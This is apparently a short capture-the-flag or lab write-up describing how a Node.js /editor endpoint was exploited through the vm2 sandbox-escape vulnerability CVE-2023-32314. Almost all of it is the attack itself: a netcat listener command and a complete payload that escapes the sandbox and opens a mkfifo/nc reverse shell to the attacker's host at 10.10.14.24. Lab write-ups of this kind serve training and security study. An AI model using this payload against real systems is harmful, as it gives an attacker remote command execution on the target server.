 In the /editor endpoint the node js code was vulnerable to the following cve
* https://www.cve.org/CVERecord?id=CVE-2023-32314*

Using the following payload in the editor field I was able to establish a reverse shell. The following is the attack path followed:
	A listener on my attack host was setup:
		`nc -lvnp 6969`
	The following payload was inputted into the editor field:
		`const { VM } = require("vm2");`
		`const vm = new VM();`
		`const code = `
		  `const err = new Error();`
		  `err.name = {`
		    `toString: new Proxy(() => "", {`
		      `apply(target, thiz, args) {`
		        `const process = args.constructor.constructor("return process")();`
		        throw process.mainModule.require("child_process").execSync("**==mkfifo /tmp/f; nc 10.10.14.24 6969 0</tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f==**").toString();
		      `},`
		    `}),`
		  `};`
		  `try {`
		    `err.stack;`
		  `} catch (stdout) {`
		    `stdout;`
		  `}`
		`;`
		
		`console.log(vm.run(code)); // -> hacked`

![[Pasted image 20240406150614.png]]

